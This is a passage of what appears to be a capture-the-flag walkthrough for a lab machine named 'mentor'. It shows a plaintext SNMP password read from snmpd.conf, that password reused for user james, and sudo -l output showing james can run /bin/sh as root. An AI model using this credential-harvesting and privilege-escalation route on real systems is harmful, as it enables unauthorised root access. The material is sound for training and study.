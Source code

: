 ```
svc@mentor:/$ cat /etc/snmp/snmpd.conf 
...
#    arguments: username [noauth|auth|priv [OID | -V VIEW [CONTEXT]]]
rouser authPrivUser authpriv -V systemonly

# include a all *.conf files in a directory
includeDir /etc/snmp/snmpd.conf.d


createUser bootstrap MD5 SuperSecurePassword123__ DES
rouser bootstrap priv

com2sec AllUser default internal
group AllGroup v2c AllUser
...
```

If we use same password for `james`

# Privilege Escalation from james to root
## /bin/sh can be run as sudo
```
james@mentor:/$ sudo -l
[sudo] password for james: 
Sorry, try again.
[sudo] password for james: 
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh

```